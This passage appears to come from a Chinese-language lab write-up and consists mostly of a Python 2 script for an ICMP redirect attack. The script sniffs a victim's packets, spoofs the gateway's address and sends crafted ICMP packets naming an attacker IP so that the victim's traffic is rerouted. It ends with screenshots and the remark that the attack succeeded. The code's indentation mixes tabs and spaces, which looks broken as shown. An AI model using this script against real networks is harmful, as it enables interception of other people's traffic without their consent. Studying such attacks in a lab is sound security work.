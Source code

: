 	if __name__=='__main__':
	    s = socket.socket(socket.AF_INET,socket.SOCK_RAW,255)
	    s.setsockopt(0,socket.IP_HDRINCL,1)
	
	    ip_packet = IP(gateway_ip,vic_ip)
	    ip_packet = ip_packet.pack()
	    icmp_packet = ICMP(attack_ip)
	    icmp_packet = icmp_packet.pack()
		
	    ip_packet = IP(gateway_ip,vic_ip)
	    ip_packet = ip_packet.pack()
	    	    
	    while True:
			try:
	            a = pcap.pcap()#抓取受害者的IP包
	            for ptime,pdata in a:
	                p = dpkt.ethernet.Ethernet(pdata)
		        	src_ip = socket.inet_ntoa(p.data.src)	
	                if src_ip == vic_ip:
	                   print 'find'
	                   data = pdata[14:42]#会带有 14Bytes的 Ethenet_II Frame的头,然后是20个字节的ip包头,而udp包头有8个字节
		            icmp_packet = ICMP(attack_ip)
		            icmp_packet = icmp_packet.pack(data)
	    	        send_packet = ip_packet + icmp_packet + data
					#ip报头+icmp报头+截取的受害者的数据（ip报头+8个字节数据）
		            s.sendto(send_packet,(vic_ip,233))
	    	except Exception,e:
	            print Exception,":",e

### 实验效果 ###

![](http://i.imgur.com/WZIw3qH.png)

![](http://i.imgur.com/6hI9ILg.png)

![](http://i.imgur.com/2snXgnK.png)

可以看到已经攻击成功了。
    







